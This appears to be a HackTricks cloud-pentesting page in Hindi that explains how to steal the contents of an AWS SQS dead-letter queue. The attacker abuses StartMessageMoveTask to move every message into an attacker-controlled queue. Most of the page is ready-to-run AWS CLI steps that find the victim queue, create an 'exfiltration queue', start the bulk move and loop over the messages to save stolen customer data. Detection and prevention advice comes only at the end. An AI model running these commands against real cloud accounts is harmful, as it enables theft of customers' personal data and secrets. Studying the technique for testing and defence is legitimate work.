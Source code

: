 # AWS – SQS DLQ Redrive Exfiltration via StartMessageMoveTask

{{#include ../../../banners/hacktricks-training.md}}

## विवरण

SQS message move tasks का दुरुपयोग करके किसी पीड़ित के Dead-Letter Queue (DLQ) में जमा सभी संदेशों को उनके attacker-controlled queue पर `sqs:StartMessageMoveTask` के माध्यम से redirect कर चुराएँ। यह तकनीक AWS के वैध message recovery फीचर का फायदा उठाकर समय के साथ DLQs में जमा संवेदनशील डेटा को exfiltrate करती है।

## Dead-Letter Queue (DLQ) क्या है?

Dead-Letter Queue एक विशेष SQS queue है जहाँ संदेश स्वतः भेज दिए जाते हैं जब मुख्य एप्लिकेशन उन्हें सफलतापूर्वक process नहीं कर पाता। ये failed संदेश अक्सर शामिल होते हैं:
- संवेदनशील एप्लिकेशन डेटा जो process नहीं हो पाया
- त्रुटि विवरण और डिबगिंग जानकारी
- Personal Identifiable Information (PII)
- API tokens, credentials, या अन्य secrets
- व्यापार-सम्वंधी महत्वपूर्ण लेन-देन डेटा

DLQs असफल संदेशों के लिए एक "graveyard" की तरह काम करते हैं, जिससे वे मूल्यवान लक्ष्य बन जाते हैं क्योंकि वे समय के साथ उन संवेदनशील डेटा को जमा कर लेते हैं जिन्हें एप्लिकेशन सही तरीके से handle नहीं कर पाया।

## Attack Scenario

**वास्तविक दुनिया का उदाहरण:**
1. **E-commerce application** SQS के माध्यम से ग्राहक ऑर्डर process करता है
2. **कुछ ऑर्डर fail हो जाते हैं** (payment issues, inventory problems, आदि) और DLQ में चले जाते हैं
3. **DLQ में जमा होते हैं** हफ्तों/महीनों के failed ऑर्डर जिनमें ग्राहक डेटा होता है: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **हमलावर को पहुँच मिल जाती है** AWS credentials के साथ जिनमें SQS permissions शामिल हैं
5. **हमलावर पाता है** कि DLQ में हजारों failed ऑर्डर हैं जिनमें संवेदनशील डेटा है
6. **व्यक्तिगत संदेशों तक पहुँचने की बजाय** (धीमा और स्पष्ट), हमलावर `StartMessageMoveTask` का उपयोग करके सभी संदेशों को अपने queue में एकसाथ transfer कर देता है
7. **हमलावर एक ही ऑपरेशन में** सभी ऐतिहासिक संवेदनशील डेटा निकाल लेता है

## आवश्यकताएँ
- स्रोत queue DLQ के रूप में configured होना चाहिए (कम से कम एक queue RedrivePolicy द्वारा referenced)।
- IAM permissions (compromised victim principal के रूप में चलाने पर):
- DLQ (source) पर: `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- destination queue पर: संदेश deliver करने की अनुमति (उदा., queue policy जो victim principal से `sqs:SendMessage` की अनुमति देता हो)। उसी खाते के destination के लिए यह सामान्यतः डिफ़ॉल्ट रूप से अनुमति होती है।
- यदि SSE-KMS सक्षम है: source CMK पर `kms:Decrypt`, और destination CMK पर `kms:GenerateDataKey`, `kms:Encrypt`.

## प्रभाव
Native SQS APIs का उपयोग करके DLQs में जमा संवेदनशील payloads (failed events, PII, tokens, application payloads) को तेज़ी से exfiltrate किया जा सकता है। यदि destination queue policy victim principal से `SendMessage` की अनुमति देती है तो यह cross-account भी काम करता है।

## दुरुपयोग कैसे करें

- पीड़ित DLQ ARN पहचानें और सुनिश्चित करें कि यह वास्तव में किसी queue द्वारा DLQ के रूप में referenced है (कोई भी queue चलेगा)।
- हमलावर-नियंत्रित destination queue बनाएं या चुनें और उसका ARN प्राप्त करें।
- पीड़ित DLQ से अपने destination queue के लिए message move task शुरू करें।
- प्रगति की निगरानी करें या आवश्यकता होने पर उसे रद्द करें।

### CLI उदाहरण: ई-कॉमर्स DLQ से ग्राहक डेटा exfiltrate करना

**Scenario**: एक हमलावर ने AWS credentials compromise कर लिए हैं और पाया कि एक ई-कॉमर्स एप्लिकेशन SQS का उपयोग करता है जिसके DLQ में failed customer order processing attempts हैं।

1) **पीड़ित DLQ की खोज और जाँच करें**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **attacker-controlled destination queue बनाएँ**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **थोक संदेश चोरी को निष्पादित करें**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **चोरी किए गए संवेदनशील डेटा को एकत्र करें**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### क्रॉस-एकाउंट नोट्स
- गंतव्य queue में एक resource policy होना चाहिए जो विक्टिम प्रिंसिपल को `sqs:SendMessage` की अनुमति दे (और, यदि उपयोग हो, KMS grants/permissions)।

## क्यों यह हमला प्रभावी है

1. **वैध AWS फीचर**: बिल्ट-इन AWS कार्यक्षमता का उपयोग करता है, जिससे इसे दुर्भावनापूर्ण के रूप में पहचानना मुश्किल होता है  
2. **बड़े पैमाने का ऑपरेशन**: धीमी व्यक्तिगत पहुँच की बजाय हजारों संदेशों को तेज़ी से स्थानांतरित करता है  
3. **ऐतिहासिक डेटा**: DLQs हफ्तों/महीनों में संवेदनशील डेटा जमा कर लेते हैं  
4. **कम निगरानी**: कई संगठन DLQ एक्सेस की कड़ी निगरानी नहीं करते  
5. **क्रॉस-एकाउंट सक्षम**: यदि अनुमतियाँ अनुमति दें तो हमलावर अपने AWS खाते में exfiltrate कर सकता है

## पहचान और रोकथाम

### पहचान
संदिग्ध `StartMessageMoveTask` API कॉल्स के लिए CloudTrail की निगरानी करें:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### रोकथाम
1. **Least Privilege**: `sqs:StartMessageMoveTask` permissions केवल आवश्यक रोल्स तक सीमित रखें
2. **Monitor DLQs**: असामान्य DLQ गतिविधि के लिए CloudWatch alarms सेट करें
3. **Cross-Account Policies**: cross-account access की अनुमति देने वाली SQS queue policies को सावधानी से समीक्षा करें
4. **Encrypt DLQs**: सीमित key policies के साथ SSE-KMS का उपयोग करें
5. **Regular Cleanup**: संवेदनशील डेटा को DLQs में अनिश्चितकाल तक जमा न होने दें

{{#include ../../../banners/hacktricks-training.md}}
